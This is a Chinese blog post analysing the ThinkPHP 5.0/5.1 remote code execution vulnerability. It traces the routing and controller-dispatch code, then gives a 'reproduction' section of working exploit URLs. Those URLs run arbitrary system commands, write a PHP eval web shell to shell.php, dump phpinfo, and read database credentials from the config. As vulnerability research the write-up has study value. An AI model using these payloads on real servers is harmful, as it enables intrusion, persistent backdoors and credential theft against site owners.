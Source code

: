 ```yaml
---
layout: post
title: "ThinkPHP远程命令执行漏洞原理及复现"
categories: thinkphp
tags: 漏洞 复现 ThinkPHP
author: Snow狼
---
```




* content
{:toc}

![](https://i.loli.net/2019/10/03/X8yTZWnr3sbANuH.png)






## 漏洞介绍

2018年12月11日，exploit-db更新了一个thinkphp框架远程代码执行漏洞

exploit地址：[https://www.exploit-db.com/exploits/45978](https://www.exploit-db.com/exploits/45978)

由于框架对控制器名没有进行足够的检测导致在没有开启强制路由的情况下getshell

## 漏洞影响范围

Thinkphp 5.1.0 - 5.1.31

Thinkphp 5.0.5 - 5.0.23

## 安装

下载地址[http://www.thinkphp.cn/donate/download/id/1125.html](http://www.thinkphp.cn/donate/download/id/1125.html)

下载完解压在/var/www/html/目录下即可

![](https://s1.51cto.com/images/blog/201901/04/e977f720f782297588d4334fa37d2910.jpg?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

## 漏洞分析

/thinkphp/library/think/App.php 行数:120

![](https://s1.51cto.com/images/blog/201901/04/29d62d71b492d7f7afe2106921ae16b8.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

我们可以看到通过self::routerCheck函数进行路由检测

![](https://s1.51cto.com/images/blog/201901/04/9747ca8286059414d52d5c9ecbab26f0.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

我们可以看到又进入$request->path()函数

/thinkphp/library/think/Request.php 行数:416行

![](https://s1.51cto.com/images/blog/201901/04/b8d9cbb52caedb1c6a60708a65c31bf3.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

进入pathinfo()函数，继续追踪到384行

![](https://s1.51cto.com/images/blog/201901/04/b7f99f4cf2507e82033e2d8c587c910b.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

Config::get('var_pathinfo')是配置文件中的设置的参数，默认值为s，从GET中获取键值，然后赋值给routeCheck中的$path

我们再回到App.php 行数:606

![](https://s1.51cto.com/images/blog/201901/04/7fe5a2669588d40d5418dbbddad49a22.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

这里会进行路由检测，检查$check后会进入else分支导入路由配置，接着检测路由url调度结果为$result，如果调度失败且开启了强制路由$must，则报出路由无效，接着进入Route::parseUrl函数，根据$path（自定义url）解析操作

开始跟踪parseUrl函数

/thinkphp/library/think/Route.php 行数:1208

![](https://s1.51cto.com/images/blog/201901/04/35bbca6752ee778d2909c48abd6abb24.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

进入parseUrlPath函数 行数:1275

![](https://s1.51cto.com/images/blog/201901/04/b5713be4395cec4b7e1f6fa26faac827.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

这里我们可以看到对模块/控制器/操作的url地址分割成数组来返回（没截好图有点重了）行数:1217

![](https://s1.51cto.com/images/blog/201901/04/cbe6e6cd92414052b29bbe79ec87b4d3.jpg?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

![](https://s1.51cto.com/images/blog/201901/04/4326f9e6954964bd2099d5ce5d8dc08d.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

我们可以看到，返回的结果赋值为$path,提取路由信息又封装到$route,最后返回

thinkphp/library/think/App.php 行数:120

![](https://s1.51cto.com/images/blog/201901/04/bf004cf83942d3e9454fcf126ec8ed0b.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

进入self::exec函数 行数:445

![](https://s1.51cto.com/images/blog/201901/04/3c41d247eb5ee1cec6d61eeaa9104183.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

我们可以看到模块/控制器/操作 的函数为self::module

开始跟踪module函数 行数:494

![](https://s1.51cto.com/images/blog/201901/04/3f13590728bf35619ffd2ad82dde112c.jpg?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

![](https://s1.51cto.com/images/blog/201901/04/c674d9dfc3351d4aa783d7469a03fb85.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

我们可以看到，根据$config['app_multi_module']进入多模块部署，$bind为NULL，又进入elseif分支，判断模块是否在禁止的列表里面$config['deny_module_list']，而且mmodule存在，$available = true，就不会抛出异常

module函数最后的返回值，发现$controller没有进行过滤，那么此时应该为think\app，也就是return self::invokeMethod($call, $vars);

![](https://s1.51cto.com/images/blog/201901/04/e53820397f83c87333084ce9421a315e.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

进入self::invokeMethod函数 行数:329

![](https://s1.51cto.com/images/blog/201901/04/f69689b439bd033639a0ce8b53b19405.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

此时穿进去的$call也就是$method,是一个数组，第一个元素是一个think\App对象，第二个元素则是调用方法名称的字符串invokefunction，然后通过反射ReflectionMethod获取这个对象下对应的方法

再通过函数$args = self::bindParams($reflect, $vars);获取传入的参数，也就是payload

最后再调用反射$reflect->invokeArgs($args);，将Payload数组传入反射对象函数invokeFunction，完成代码执行。

![](https://s1.51cto.com/images/blog/201901/04/1f71a27cb067d39cf42debce046fbbfc.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

至此，ThinkPHP远程代码执行漏洞分析完成

* * *

## 漏洞利用

http://xxx.xxx.xxx(这里为你的域名)/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

远程代码执行命令:whoami（链接后面的whoami可以改成你要执行的命令,特殊符号请进行url转码）

http://xxx.xxx.xxx/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

通过phpinfo函数写出phpinfo的信息

![](https://s1.51cto.com/images/blog/201901/04/5a98ecb2efd63f095ab1547969d34415.png?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

http://xxx.xxx.xxx/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20^%3C?php%20@eval($_GET[%22snowwolf%22])?^%3E%3Eshell.php

写入shell

http://xxx.xxx.xxx/public/index.php?s=index/\think\app/invokefunction&function=phpinfo&vars[0]=100

也是显示phpinfo

http://xxx.xxxx.xxx/thinkphp/public//?s=.|think\config/get&name=database.username

数据库用户名（后面的username改为password为数据库密码）

![](https://s1.51cto.com/images/blog/201901/28/723575b76c42b33f1bde8124b9c322c5.jpg?x-oss-process=image/watermark,size_16,text_QDUxQ1RP5Y2a5a6i,color_FFFFFF,t_100,g_se,x_10,y_10,shadow_90,type_ZmFuZ3poZW5naGVpdGk=)

至此，漏洞原理，复现，分析完成
